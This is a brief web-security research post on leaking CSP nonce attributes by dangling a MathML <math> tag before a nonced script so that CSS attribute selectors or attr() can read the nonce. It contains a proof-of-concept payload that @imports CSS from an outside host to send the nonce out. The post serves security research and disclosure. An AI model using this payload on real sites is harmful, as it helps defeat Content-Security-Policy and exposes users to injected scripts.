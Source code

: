 ```yaml
---
layout: post
title: Leaking CSP nonces with CSS & MathML
author: Jorian Woltjer
date: 2025-10-05
tags: [csp, mathml, dangling-markup]
profile_picture: /assets/images/JW_Logo_V2_Transparant.webp
handle: j0r1an
social_links: [https://x.com/J0R1AN, https://jorianwoltjer.com/]

description: "By dangling a <math> tag in HTML, leaking nonce attributes via CSS is possible again!"
permalink: /research/leaking-csp-nonces-css-mathml
---
```


Nowadays, browsers prevent CSS Injection from being able to leak [`nonce=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/nonce) attributes, *they can't be matched*. Either via selectors or the new [`attr()`](https://developer.mozilla.org/en-US/docs/Web/CSS/attr) function.

> **Tip**: In case you're testing this, made sure your testing setup has a CSP header active with the correct nonce. Only then will it hide the nonce attribute, otherwise you might get false positives!

The trick: if you can dangle a [`<math>`](https://developer.mozilla.org/en-US/docs/Web/MathML/Reference/Element/math) tag at the end of your payload, and a script/style with a nonce comes right after it (before auto-closing the math tag), in the MathML namespace this protection isn't active!

That means you can match it with selectors like [`*=`](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors#attrvalue_6), or use the `attr()` trick just like any other attribute:

```html
Content-Security-Policy: script-src 'nonce-NONCE'

<style>
  @import 'https://r.jtw.sh./poc.css?body=*[nonce]+%7B%0D%0A++background%3A+image-set%28attr%28nonce%29%29%3B%0D%0A%7D';
</style>
<math>
  <script nonce="NONCE">
    console.log("Hello, world!");
  </script>
```

---

I don't think this is very useful in the real world yet because dangling markup really only happens on *server-side* HTML injection, while updating a payload to include our newly leaked nonce requires a *client-side* injection. Maybe someone has an attack scenario ¯\\\_(ツ)\_/¯

